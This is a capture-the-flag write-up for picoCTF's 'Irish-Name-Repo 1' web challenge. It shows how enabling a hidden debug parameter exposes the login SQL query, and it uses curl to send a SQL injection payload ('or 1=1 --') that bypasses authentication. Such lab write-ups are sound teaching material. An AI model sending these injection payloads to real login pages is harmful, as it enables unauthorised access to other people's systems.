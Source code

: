 # picoCTF – Irish-Name-Repo 1 

* **Category:** Web
* **Points:** 300

## Challenge

>  Do you think you can log us in? Try to see if you can login!

## Solution

Open web console to inspect the network traffic. Go to Admin Login page and click on the Login button. In the request payload there is a field named `debug` with value `0`. Make the same request using *curl* again with `debug=1`. 

```
curl "<URL>/login.php" -d "username=password=&debug=1"
```
The response will show the SQL query used by the server. From this we need to infer that the solution is based on SQL injection.


Make another request with a SQL statement with 1=1 trick.
```
curl "<URL>/login.php" -d "username=test' or 1=1 --&password=&debug=1"
```


```
picoCTF{s0m3_SQL_xxxxxx}
```
